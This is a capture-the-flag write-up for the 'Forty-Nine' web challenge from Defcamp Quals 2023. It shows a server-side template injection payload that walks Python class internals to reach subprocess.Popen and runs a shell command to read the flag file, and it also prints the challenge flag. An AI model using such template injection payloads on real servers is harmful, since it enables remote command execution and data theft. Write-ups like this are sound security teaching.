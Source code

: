 ```yaml
---
title: Forty-Nine
date: 2023-10-22T14:55:41-04:00
description: Writeup for Forty-Nine [Defcamp Quals 2023]
type: writeup
author: Koyossu
tags:
- web
draft: false
---
```

___

## Challenge Description

We have a random fact generator that might have some problems sanitizing the input. It may not be as simple as 7*7.

Flag format: CTF{sha256}

## Intuition

Having seen the funny description we know that this is yet another jail escape. Let's look at the main page and see what all the fuss is about.

![img.png](/images/defcamp_quals_2023/fortyNine1.png)

So we can understand the following: the web page takes our input and that the server is in python. Lovely stuff.

From here we can try to do SSTI using one of the 2 python template escapes, the `{{` (curly brackets) or `{% %}`

After some tries we see this.

![img.png](/images/defcamp_quals_2023/fortyNine2.png)

Bingo! We now know this is for sure SSTI and all we have to do is call system and get the flag from the machine. Hopefully, the challange did not have any input sanitization or restrictions.

## Solution

All we needed to do is reach __builtins__ or something that has any function related to system calls and shell spawning. We will go step by step using common techniques, like 
leveraging python objects and MRO (method resolution order), trying to access the above mentioned methods.

Let the fun begin :)

Using a basic technique 
```python
{% print( ''.__class__.__mro__[1].__subclasses__()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine3.png)

Bingo, we have access to `<class 'subprocess.Popen'>` in this array, so we can call popen and do cat the flag. 

Final Payload:
```python
{% print( ''.__class__.__mro__[1].__subclasses__()[367]("cat flag.txt", shell=True, stdout=-1).communicate()) %}
```
![img.png](/images/defcamp_quals_2023/fortyNine4.png)


### Flag
Here is the final flag, and a proof from the website :)

![img.png](/images/defcamp_quals_2023/fortyNineFlag.png)

`CTF{f1cb7344129bcc51480407f1f381cb994c155194fdde34b827cc48c9f4d3040e}`

